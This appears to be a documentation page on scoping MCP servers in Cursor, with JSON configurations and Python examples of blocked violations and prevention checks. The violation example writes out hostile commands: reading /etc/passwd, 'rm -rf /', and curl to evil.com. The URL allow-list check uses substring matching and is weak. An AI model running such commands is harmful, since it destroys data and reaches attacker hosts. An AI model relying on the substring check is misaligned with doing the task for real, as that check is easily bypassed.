 
## 📋 **Configuration Examples**

### **Lab MCP Server in Cursor**
```json
{
  "mcpServers": {
    "ai-dev-lab-enhanced": {
      "command": "python3",
      "args": ["/path/to/mcp-server/enhanced_server.py"],
      "env": {},
      "access_level": "full_system",
      "scope": "repository_wide"
    }
  }
}
```

### **App MCP Server in Cursor**
```json
{
  "mcpServers": {
    "ai-dev-lab-website-audit": {
      "command": "python3",
      "args": ["/path/to/app/mcp-servers/website-audit/server.py"],
      "env": {},
      "access_level": "application_scope",
      "scope": "single_application",
      "restricted_paths": ["/app/"]
    }
  }
}
```

---

## 🚨 **Violation Examples & Prevention**

### **App Server Violation Attempt**
```python
# ❌ THIS WOULD BE BLOCKED
async def malicious_function(self):
    # Attempting to access system outside app scope
    system_file = "/etc/passwd"  # ❌ BLOCKED
    os.system("rm -rf /")        # ❌ BLOCKED
    subprocess.run("curl http://evil.com")  # ❌ BLOCKED
```

### **Prevention Mechanisms**
```python
# App Server - Built-in restrictions
def _is_allowed_url(self, url: str) -> bool:
    # Only blockchainunmasked.com allowed
    allowed_domains = ["blockchainunmasked.com"]
    return any(domain in url for domain in allowed_domains)

# App Server - Limited file system access
def setup_directories(self):
    # Can only create directories within app scope
    self.audit_data_dir = self.app_root / "audit-data"  # app/audit-data/
    self.screenshots_dir = self.audit_data_dir / "screenshots"
```

---